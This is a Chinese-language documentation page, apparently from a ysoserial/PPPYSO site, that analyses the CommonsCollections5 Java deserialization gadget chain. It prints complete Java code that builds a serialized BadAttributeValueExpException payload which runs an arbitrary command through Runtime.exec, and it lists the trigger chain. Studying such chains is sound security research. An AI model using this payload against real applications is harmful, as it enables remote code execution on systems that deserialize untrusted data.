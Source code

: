 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections5

## 0x01 BadAttributeValueExpException

CC5 与 CC6 时的分析一样，都是通过 `TiedMapEntry` 来触发  `LazyMap`，CC6 构造时选选了 `hashCode()` ，实际上在 `TiedMapEntry` 类中还有 `equals()`、 `toString()` 方法都调用了 `getValue()`，CC5 使用的是 `toString()`。

![image-20230331101451473](attachments/image-20230331101451473.png)

CC5 引出了一个新的 kick-off `javax.management.BadAttributeValueExpException`， 当满足下面两个条件之一时将调用 `toString()`

1. valObj 非 String
2. System.getSecurityManager() == null

![image-20230331102622247](attachments/image-20230331102622247.png)

那么调用链就很好写了，反射修改 `BadAttributeValueExpException` 的 `val` 值就行

```java
    public BadAttributeValueExpException getObject(final String command) throws Exception {
      final String[] execArgs = new String[] { command };
      // inert chain for setup
      final Transformer transformerChain = new ChainedTransformer(
              new Transformer[]{ new ConstantTransformer(1) });
      // real chain for after setup
      final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
               String.class, Class[].class }, new Object[] {
               "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
               Object.class, Object[].class }, new Object[] {
               null, new Object[0] }),
            new InvokerTransformer("exec",
               new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };

      final Map innerMap = new HashMap();

      final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

      TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

      BadAttributeValueExpException val = new BadAttributeValueExpException(null);
      Reflections.setFieldValue(val, "val", entry);
//    Field valfield = val.getClass().getDeclaredField("val");
//        Reflections.setAccessible(valfield);
//    valfield.set(val, entry);

      Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

      return val;
   }
```



## 0x02 Gadget Chain

```
BadAttributeValueExpException.readObject()
    TiedMapEntry.toString()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                InvokerTransformer.transform()
```



